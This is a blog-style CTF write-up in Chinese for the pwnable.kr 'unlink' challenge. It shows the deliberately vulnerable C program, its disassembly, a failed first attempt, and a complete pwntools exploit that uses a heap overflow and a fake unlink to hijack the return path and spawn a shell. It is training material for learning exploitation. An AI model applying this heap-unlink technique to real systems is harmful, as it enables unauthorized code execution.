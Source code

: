 ```yaml
---
layout:     post
title:      "pwnable.kr之unlink"
subtitle:   " 堆还是栈？ "
date:       2018-07-21 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

>连接  ssh unlink@pwnable.kr -p2222 (pw: guest)

## 0x01 程序分析

它直接给出了源代码unlink.c

```python
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	typedef struct tagOBJ{
	        struct tagOBJ* fd;
	        struct tagOBJ* bk;
	        char buf[8];
	}OBJ;
	
	void shell(){
	        system("/bin/sh");
	}
	
	void unlink(OBJ* P){
	        OBJ* BK;
	        OBJ* FD;
	        BK=P->bk;
	        FD=P->fd;
	        FD->bk=BK;
	        BK->fd=FD;
	}
	int main(int argc, char* argv[]){
	        malloc(1024);
	        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	        OBJ* C = (OBJ*)malloc(sizeof(OBJ));
	
	        // double linked list: A <-> B <-> C
	        A->fd = B;
	        B->bk = A;
	        B->fd = C;
	        C->bk = B;
	
	        printf("here is stack address leak: %p\n", &A);
	        printf("here is heap address leak: %p\n", A);
	        printf("now that you have leaks, get shell!\n");
	        // heap overflow!
	        gets(A->buf);
	         
	        // exploit this unlink!
	        unlink(B);
	        return 0;
	}

```


可以看出这段代码模仿了堆的一些实现,模拟的 Unlink 堆溢出漏洞。最后打印出A变量栈中地址和heap指向分配的mem地址,让你get shell.

main函数汇编代码如下：

```python
	.text:0804852F ; int __cdecl main(int argc, const char **argv, const char **envp)
	.text:0804852F                 public main
	.text:0804852F main            proc near               ; DATA XREF: _start+17↑o
	.text:0804852F
	.text:0804852F var_14          = dword ptr -14h
	.text:0804852F var_10          = dword ptr -10h
	.text:0804852F var_C           = dword ptr -0Ch
	.text:0804852F var_4           = dword ptr -4
	.text:0804852F argc            = dword ptr  8
	.text:0804852F argv            = dword ptr  0Ch
	.text:0804852F envp            = dword ptr  10h
	.text:0804852F
	.text:0804852F ; __unwind {
	.text:0804852F                 lea     ecx, [esp+4]
	.text:08048533                 and     esp, 0FFFFFFF0h
	.text:08048536                 push    dword ptr [ecx-4]
	.text:08048539                 push    ebp
	.text:0804853A                 mov     ebp, esp
	.text:0804853C                 push    ecx
	.text:0804853D                 sub     esp, 14h
	.text:08048540                 sub     esp, 0Ch
	.text:08048543                 push    400h            ; size
	.text:08048548                 call    _malloc
	.text:0804854D                 add     esp, 10h
	.text:08048550                 sub     esp, 0Ch
	.text:08048553                 push    10h             ; size
	.text:08048555                 call    _malloc
	.text:0804855A                 add     esp, 10h
	.text:0804855D                 mov     [ebp+var_14], eax
	.text:08048560                 sub     esp, 0Ch
	.text:08048563                 push    10h             ; size
	.text:08048565                 call    _malloc
	.text:0804856A                 add     esp, 10h
	.text:0804856D                 mov     [ebp+var_C], eax
	.text:08048570                 sub     esp, 0Ch
	.text:08048573                 push    10h             ; size
	.text:08048575                 call    _malloc
	.text:0804857A                 add     esp, 10h
	.text:0804857D                 mov     [ebp+var_10], eax
	.text:08048580                 mov     eax, [ebp+var_14]
	.text:08048583                 mov     edx, [ebp+var_C]
	.text:08048586                 mov     [eax], edx
	.text:08048588                 mov     edx, [ebp+var_14]
	.text:0804858B                 mov     eax, [ebp+var_C]
	.text:0804858E                 mov     [eax+4], edx
	.text:08048591                 mov     eax, [ebp+var_C]
	.text:08048594                 mov     edx, [ebp+var_10]
	.text:08048597                 mov     [eax], edx
	.text:08048599                 mov     eax, [ebp+var_10]
	.text:0804859C                 mov     edx, [ebp+var_C]
	.text:0804859F                 mov     [eax+4], edx
	.text:080485A2                 sub     esp, 8
	.text:080485A5                 lea     eax, [ebp+var_14]
	.text:080485A8                 push    eax
	.text:080485A9                 push    offset format   ; "here is stack address leak: %p\n"
	.text:080485AE                 call    _printf
	.text:080485B3                 add     esp, 10h
	.text:080485B6                 mov     eax, [ebp+var_14]
	.text:080485B9                 sub     esp, 8
	.text:080485BC                 push    eax
	.text:080485BD                 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
	.text:080485C2                 call    _printf
	.text:080485C7                 add     esp, 10h
	.text:080485CA                 sub     esp, 0Ch
	.text:080485CD                 push    offset s        ; "now that you have leaks, get shell!"
	.text:080485D2                 call    _puts
	.text:080485D7                 add     esp, 10h
	.text:080485DA                 mov     eax, [ebp+var_14]
	.text:080485DD                 add     eax, 8
	.text:080485E0                 sub     esp, 0Ch
	.text:080485E3                 push    eax             ; s
	.text:080485E4                 call    _gets
	.text:080485E9                 add     esp, 10h
	.text:080485EC                 sub     esp, 0Ch
	.text:080485EF                 push    [ebp+var_C]
	.text:080485F2                 call    unlink
	.text:080485F7                 add     esp, 10h
	.text:080485FA                 mov     eax, 0
	.text:080485FF                 mov     ecx, [ebp-4]
	.text:08048602                 leave
	.text:08048603                 lea     esp, [ecx-4]
	.text:08048606                 retn
	.text:08048606 ; } // starts at 804852F
	.text:08048606 main            endp

```

## 0x01 漏洞分析之折腾

明显程序在 gets(A->buf) 处有堆溢出，一开始我走偏了，狠狠折腾了一番。我的思路是他泄露了&A即栈地址，根据栈地址能算出ret时esp指向的栈顶地址，这个偏移是不会随着系统的aslr变化的。所以我找出了ret 时esp相对于&A的偏移 0x28 。知道了 ret 时的栈顶有什么用呢？ 只要用gets伪造好数据，调用unlink函数的时候就可以替换地址，我要做的就是将 B堆空间的fd替换成ret-4地址，bk替换成shell函数地址，payload如下：

	payload="a"*8+p32(0)+p32(0x19)+p32(ret-4)+p32(shell_addr)

这样unlink后

	*(ret-4+4)=*(ret)=栈顶内容=shell_addr 
	*(shell_addr)=ret-4

这样当程序执行到main函数ret的时候，就能成功返回到我的shell地址，

我本以为这样就能成功拿shell，结果我忽略了一个问题。那就是*(shell_addr)=ret-4 这个地方已经破坏了shell函数的代码段  /(ㄒoㄒ)/  失败告终。


## 0x02 再次分析

后来发现main函数结尾那里，

```java

	.text:080485FF                 mov     ecx, [ebp-4]
	.text:08048602                 leave
	.text:08048603                 lea     esp, [ecx-4]
	.text:08048606                 retn
```

会将**[ecx-4]**写入**esp**，只要我们可控制 **ecx**内容就能控制返回地址。再看上面有**mov  ecx,[ebp-4]** 这样一段代码，只有我们可以控制**[ebp-4]**的内容就能控制**ecx**内容。

经调试发现**ebp-4=&A + 0x10** 代码有两次取地址内容，根据泄露的A的heap地址 ， heap地址下面（高处）即是gets()输入的内存空间，所以我们又构造 **heap+12=shell_addr+4**

这样我们就将（shell的地址 + 4）写入（ebp-4的内存中）也就是将 A+12 的值写入 &A + 0x10的内存中，返回时便控制了eip。

## 0x03 完整exp

```python
	from pwn import *
	context(os='linux', log_level='debug')
	p=process("./unlink")
	shell_addr=0x80484eb
	stack_addr=p.recvline()
	stack_addr=stack_addr.split(": 0x")[1][:-1]
	stack_addr=int(stack_addr,16)
	
	heap_addr=p.recvline()
	heap_addr=heap_addr.split(": 0x")[1][:-1]
	heap_addr=int(heap_addr,16)
	
	p.recvuntil("get shell!\n")
	payload=p32(shell_addr)+"a"*12+p32(heap_addr+12)+p32(stack_addr+16)
	p.sendline(payload)
	p.interactive()
```

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/pwnable.kr%E4%B9%8Bunlink)